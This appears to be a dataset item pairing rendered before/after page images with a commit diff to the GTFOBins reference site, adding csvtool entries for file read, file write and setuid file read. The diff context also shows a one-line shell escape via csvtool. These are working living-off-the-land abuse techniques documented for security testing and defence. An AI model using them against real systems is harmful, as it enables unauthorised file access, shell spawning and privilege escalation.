

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/csvtool.md, in a window 1280 px wide. Shown: the whole page at 83% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Add csvtool file-read/write

```diff
--- a/_gtfobins/csvtool.md
+++ b/_gtfobins/csvtool.md
@@ -1,5 +1,21 @@
 ---
 functions:
+  file-read:
+    - description: The file is actually parsed and manipulated as CSV, so this might not be suitable for arbitrary data.
+      code: |
+        LFILE=file_to_read
+        csvtool trim t $LFILE
+  file-write:
+    - description: The file is actually parsed and manipulated as CSV, so this might not be suitable for arbitrary data.
+      code: |
+        LFILE=file_to_write
+        TF=$(mktemp)
+        echo DATA > $TF
+        csvtool trim t $TF -o $LFILE
+  suid:
+    - code: |
+        LFILE=file_to_read
+        ./csvtool trim t $LFILE
   shell:
     - code: csvtool call '/bin/sh;false' /etc/passwd
   sudo:
```
